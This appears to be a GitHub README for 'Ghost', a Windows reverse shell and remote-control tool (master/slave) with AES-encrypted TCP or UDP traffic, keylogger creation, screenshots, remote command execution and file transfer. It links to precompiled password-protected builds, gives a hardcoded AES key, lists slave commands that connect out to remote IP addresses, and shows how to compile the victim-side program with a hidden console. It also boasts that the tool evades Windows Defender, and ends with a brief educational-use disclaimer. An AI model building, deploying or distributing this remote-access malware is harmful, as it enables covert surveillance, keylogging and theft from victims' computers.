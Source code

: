 # Ghost
Reverse shell and management console for Windows. Communication between the reverse shell and the management console is AES encrypted. Reverse shell and management console support tcp and udp protocols. 

<dl>
  <dt>Some of its features are
  <dd>
  <dd>-Sends commands to cmd and powershell,
  <dd>-Creates or extracts zip files
  <dd>-Downloads files from the Internet,
  <dd>-Supports file upload and download,
  <dd>-Creates keylogger program,
  <dd>-Takes a screenshot
  <dd>-Communication between server and client is AES encrypted.
</dl>

The Compiled Version of the Program Can be Downloaded from the Links Below.
---
<dl>
  <dt> 1) Compiled without using the "--noconsole" command 
  <dd>
  <dd> ghost_v4_showconsole.rar --> zip password: "ghost_v4"
  <dd> Link = https://drive.google.com/file/d/1d_8ghw7vlULQ26KI1hbJaTmT_d3QQY8W/view?usp=sharing
</dl>

<dl>
  <dt> 2) Compiled using the "--noconsole" command
  <dd> 
  <dd> ghost_v4_noconsole.rar --> zip password: "ghost_v4"
  <dd> Link = https://drive.google.com/file/d/1Oxeva5fwwTeRRJLv_7o12Lby4AXeFnEq/view?usp=sharing
</dl>



Requirements
---
Required libraries:  pycryptodome , requests, pyautogui, pyinstaller

```
pip install pycryptodome
pip install  requests
pip install pyautogui
pip install pyinstaller
```


"pyinstaller" will be used to make the code one piece executable


Settings
---

**(1) master.py**

![master](https://user-images.githubusercontent.com/71177413/162610379-f8baa1f8-050a-4923-90fe-287267a8e994.JPG)

```
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "0.0.0.0"                                 # This value in "master.py" should not be changed in order for "slave.py" to be connected.
    SOCKET_PORT     = 9292                                      # "slave.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 0                                   # No timeout. It is recommended to set the value to "0" for master.py.
``` 
    
   
  **(2) slave.py**
   
   ![slave](https://user-images.githubusercontent.com/71177413/162610823-5da57505-edf6-44c1-b7a9-74a3062beab6.JPG)
   
```
    CRTYPTO_KEY     =  b'A45iPxLo908RYe3Wq034TueWvCxz3618'      # 32 bit(s) AES key  (changeable) [The value for "slave.py" should be the same.]
    CRTYPTO_NUMBER  =  71                                       # Second key to strengthen encryption. It must be between 1 and 128. (changeable) [The value for "slave.py" should be the same.]
    SOCKET_PROTOCOL = "UDP"                                     # "TCP" or "UDP" (changeable)
    SOCKET_HOST     = "127.0.0.1"                               # The IP to which "slave.py" will be connected
    SOCKET_PORT     = 9292                                      # "master.py" must be the same port. (changeable)
    SYSTEM_ENCODE   = "cp857"                                   # TURKISH CHARACTER SET (changeable; example utf-8, latin1 etc.)
    SYSTEM_DEFAULTTIMEOUT = 300                                 # 5 minutes; It is recommended to be non-zero for "UDP". When the connection is lost or an error occurs, "slave.py" tries to connect again after this period. At the same time, if it does not receive a command from "master.py" within this time, it tries to connect again. Therefore, setting a very low value is also not appropriate.
```

<dl>
  <dt>
  <dt> Except for encryption, these values can be changed with initial parameters if desired.
  <dd>
  <dd> master.exe -h      ==> Shows help parameters.
  <dd> slave -h           ==> Not shows help parameters because of the parameter ("--noconsole") used while compiling
</dl>
  
<dl>
  <dt>
  <dt> Example:
  <dd>
  <dd> master -udp -c:cp857  -t:00 8080             ==> (8080 port)
  <dd> master -tcp -c:utf-8  -t:600 9393            ==> (9393 port)
  <dd> master 7272                                  ==> (7272 port)
  <dd> slave  -udp -c:cp857  -t:600 1.1.1.1:8080    ==> (1.1.1.1 ip - 8080 port)
  <dd> slave  -tcp -c:utf-8  -t:00  1.1.1.1:9393    ==> (1.1.1.1 ip - 9393 port)
  <dd> slave 3.3.3.3:7272                           ==> (3.3.3.3 ip - 7272 port)
</dl>

![1](https://user-images.githubusercontent.com/71177413/162611487-baabc2aa-2c37-4a9b-b178-74dbb8d08d75.JPG)

![2](https://user-images.githubusercontent.com/71177413/162611490-e24ad077-5b4d-4a33-8ac9-c72f24d91829.JPG)


Compilation
---

(show console for slave.py)

```
pyinstaller --onefile --icon=master.ico master.py

pyinstaller --onefile --icon=slave.ico slave.py
```
or (hide console for slave.py)

```
pyinstaller --onefile --icon=master.ico master.py

pyinstaller --onefile --noconsole --icon=slave.ico slave.py
```

Commands for Master.py
---

`commands      ==> Shows commands very briefly.`

![3](https://user-images.githubusercontent.com/71177413/162611768-9e3e7ad6-298a-4c7d-b907-320f2696003a.JPG)


`help          ==> Shows commands in detail.`

![4](https://user-images.githubusercontent.com/71177413/162611775-ed01e4f7-4dfb-4aa0-a6cb-9b7877528e1f.JPG)


Notes
---
First, master.py should be run, then slave.py should be run. Otherwise, slave.py will wait for the timeout and try to connect again.



Some Images of the Working of the Program
---

[1] 

![5](https://user-images.githubusercontent.com/71177413/162612140-749b42ed-b450-4a60-a43d-00e3f2eea801.JPG)


[2]

![6](https://user-images.githubusercontent.com/71177413/162612197-5cf920c1-8d3e-4647-99b5-a45b408cf275.JPG)


[3]

![11](https://user-images.githubusercontent.com/71177413/162612212-a7019220-d3db-4024-9d3a-f548e902b32b.JPG)


[4]

![7](https://user-images.githubusercontent.com/71177413/162612297-5da94b20-8b7f-40ec-92e4-1733e6a58059.JPG)


[5]

![8](https://user-images.githubusercontent.com/71177413/162612229-110697a1-b587-4bc2-ada1-1742538f4fb1.JPG)


[6]

![10](https://user-images.githubusercontent.com/71177413/162612315-b7bf2aa0-f349-4e85-b22c-aab987ca43d1.JPG)


[7]

![13](https://user-images.githubusercontent.com/71177413/162613543-95a90c3f-f4c6-434b-b05e-a91769ee9096.JPG)


[8]

![14](https://user-images.githubusercontent.com/71177413/162615941-394026f7-26a3-467c-bacd-20665c7ebb1c.JPG)


Windows Defender
---
As of 10/04/2022, It is not caught by the Windows Defender program. Over time this will change.


Legal Warning
---
Run your tests on virtual machines. The responsibility for illegal use belongs to the user. Shared for educational purposes.

